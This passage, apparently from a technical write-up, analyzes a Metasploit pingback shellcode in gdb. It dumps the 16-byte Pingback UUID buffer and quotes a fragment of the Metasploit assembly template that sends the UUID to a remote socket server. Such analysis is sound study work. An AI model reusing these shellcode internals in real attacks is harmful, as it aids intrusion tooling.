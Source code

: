 // jmp 0x4000ca
</code></pre><p>The buffer containing the bytes that the shellcode is going to send to the remote server is stored at the address <code>0x4000da</code>, which is the return address of the current <code>call</code>.</p><p>In particular, the bytes are the following:</p><pre><code class="language-bash">(gdb) x/16xb 0x4000da
# 0x4000da:       0xe4    0x92    0xe3    0xc8    0xa4    0xbb    0x41    0x53
# 0x4000e2:       0xa8    0xfb    0x99    0x26    0xac    0x6c    0xd6    0x4c
</code></pre><p>Since it's 16 bytes, hence 32 hex digits, the resulting buffer can be represented by the following hex string:</p><pre><code class="language-txt">e492e3c8a4bb4153a8fb9926ac6cd64c
</code></pre><p>This string represents the so-called <em>Pingback UUID</em> of the shellcode. The source code from metasploit contains a reference to this value:</p><pre><code class="language-ruby">asm = %Q^
    ...
    send_pingback:
        push #{uuid_as_db.split(",").length} ; length of the PINGBACK UUID
        pop rdx
        call get_uuid_address         ; put uuid buffer on the stack
        db #{uuid_as_db}  ; PINGBACK_UUID
    ...
    ^
</code></pre><p>Back to the instructions, right after the shellcode sends the Pingback UUID to the remote server, it jumps to the address <code>0x4000ca</code>, which, ad mentioned previously, leads to <code>sys_exit</code>, thus terminating the execution of the shellcode.</p><p>Overall, it seems that the only thing it does is connect to the socket server and send the UUID stored within itself.</p>